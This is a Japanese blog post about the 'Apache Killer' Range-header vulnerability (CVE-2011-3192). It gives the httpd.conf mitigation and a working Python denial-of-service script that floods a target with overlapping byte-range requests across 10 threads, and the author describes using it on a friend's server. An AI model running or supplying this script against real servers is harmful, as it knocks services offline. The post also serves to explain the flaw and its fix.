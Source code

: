 ```yaml
---
title: pythonでapache killerを書いてみる
pubtime: 2015-07-01T15:25+0900
amp: hybrid
tags: [Apache, apache_killer, 脆弱性, CVE-2011-3192, Range]
description: 友人のサーバの脆弱性を調べていたらapacheのバージョンが古かったので、試しにapache killerと言われる攻撃手法を試してみました。
---
```


友人の自宅サーバの脆弱性検査をしていたら、apacheのバージョンが随分と古かったのでapache killer(CVE-2011-3192)をさくっと叩いてみました。
ツール起動して十数秒でダウンするという恐ろしさ。

この脆弱性を持っているのはApache 2.2.19以前と、2.0.64以前らしいです。

**httpd.conf**に以下のような設定を付け足すと大丈夫になるようです。
``` apache
# Drop the Range header when more than 5 ranges.
# CVE-2011-3192
SetEnvIf Range (?:,.*?){5,5} bad-range=1
RequestHeader unset Range env=bad-range

# We always drop Request-Range; as this is a legacy
# dating back to MSIE3 and Netscape 2 and 3.
RequestHeader unset Request-Range
```
[参考サイト](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)に載っていたのそのままなのでコメント入ってますけど、結局のところ三行。シンプルだね。

さて、本題。
攻撃用に書いたコードがこんな感じです。python3。
``` python
import socket
import threading


target = ''  # target host name. eg. 'example.com'


dat = '''HEAD / HTTP/1.1
Host: {}
Range: bytes=0-1,1-2,2-3,3-4,4-5,5-6,6-7,7-8,8-9,9-10,10-11,11-12,12-13,13-14,0-1
Accept-Encoding: gzip
Connection: keep-alive


'''.format(target).encode('ascii')


def attack():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target, 80))

        while True:
            sock.send(dat)
            if sock.recv(1024) == b'':
                break


if __name__ == '__main__':
    for i in range(10):
        t = threading.Thread(target=attack).run()
```
ご覧いただくとお分かり頂けるように、Rangeヘッダになんか凄い値が入っています。
0バイト目から1バイト目、1バイト目から2バイト目、2バイト目から・・・みたいな指定の仕方。
こういった感じでRangeヘッダで分割しまくると、メモリを物凄く食ってしまうそうです。

このコードではkeep-aliveを指定したコネクションを張るスレッドを10個立てて、件のリクエストを送り続けます。
アクセスログ見てるとかなり面白い。

そんなわけで。もう一度対策の設定を見てみる。
``` apache
SetEnvIf Range (?:,.*?){5,5} bad-range=1  # Rangeヘッダに,がいっぱいある場合はbad-rangeに1を設定
RequestHeader unset Range env=bad-range  # bad-rangeが設定されているなら、Rangeヘッダを削除。
```
こんな感じか。なるほど。

``` apache
RequestHeader unset Request-Range
```
こっちの意味はよく分からんのですが、コメントを見る限りでは古いブラウザの一部がこのヘッダを指定してくる、ということなのかな？

余談ですが、サーバのバージョンは必ず隠そうね。どういう脆弱性があるかを推察されてしまう。

---

参考：
- [Apache killerは危険&#65374;Apache killerを評価する上での注意&#65374; | 徳丸浩の日記](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)
- [Here's a Preliminary "Apache Killer" Test Script - Blogging Techstacks](http://blog.techstacks.com/2011/08/heres-a-preliminary-apache-killer-test-script.html)
